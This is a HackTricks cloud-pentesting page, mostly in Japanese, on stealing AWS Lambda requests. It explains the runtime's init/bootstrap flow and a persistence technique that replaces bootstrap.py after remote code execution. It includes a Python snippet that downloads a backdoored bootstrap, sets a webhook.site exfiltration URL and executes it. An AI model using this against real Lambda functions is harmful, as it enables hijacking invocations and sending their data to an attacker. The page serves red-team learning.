 # AWS - Lambdaリクエストの盗難

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**はコンテナ外のプロセスで、**init**プロセスに**呼び出し**を**送信**します。
2. initプロセスはポート**9001**でリッスンし、いくつかの興味深いエンドポイントを公開しています：
* **`/2018-06-01/runtime/invocation/next`** – 次の呼び出しイベントを取得
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 呼び出しのハンドラー応答を返す
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返す
3. **bootstrap.py**はinitプロセスから呼び出しを取得するループを持ち、ユーザーのコードを呼び出して処理します（**`/next`**）。
4. 最後に、**bootstrap.py**はinitに**応答**を送信します。

bootstrapはユーザーコードをモジュールとして読み込むため、ユーザーコードによって実行されるコードは実際にはこのプロセス内で発生しています。

## Lambdaリクエストの盗難

この攻撃の目的は、ユーザーのコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。このようにして、**悪意のあるbootstrap**プロセスは**initプロセスと通信を開始**し、リクエストを処理しますが、**正当な**bootstrapは**トラップ**されて悪意のあるものを実行しているため、initプロセスにリクエストを要求しません。

これは、ユーザーのコードが正当な**`bootstrap.py`**プロセスによって実行されているため、達成するのは簡単な作業です。したがって、攻撃者は次のことができます：

* **現在の呼び出しの偽の結果をinitプロセスに送信し、initがbootstrapプロセスがさらに呼び出しを待っていると考えさせる**。
* **`/${invoke-id}/response`**にリクエストを送信する必要があります。
* invoke-idは、正当な**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) Pythonモジュールを使用して取得することができます（[ここで提案されたように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）または再度**`/2018-06-01/runtime/invocation/next`**にリクエストすることによって取得できます（[ここで提案されたように](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 次の呼び出しを処理する悪意のある**`boostrap.py`**を実行する。
* ステルス性の目的で、lambda呼び出しパラメータを攻撃者が制御するC2に送信し、その後リクエストを通常通り処理することが可能です。
* この攻撃では、システムから**`bootstrap.py`**の元のコードを取得するか、[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から取得し、悪意のあるコードを追加して現在のlambda呼び出しから実行するだけで十分です。

### 攻撃手順

1. **RCE**脆弱性を見つける。
2. **悪意のある** **bootstrap**を生成する（例：[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）。
3. **悪意のあるbootstrapを実行する**。

これらのアクションは簡単に実行できます：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
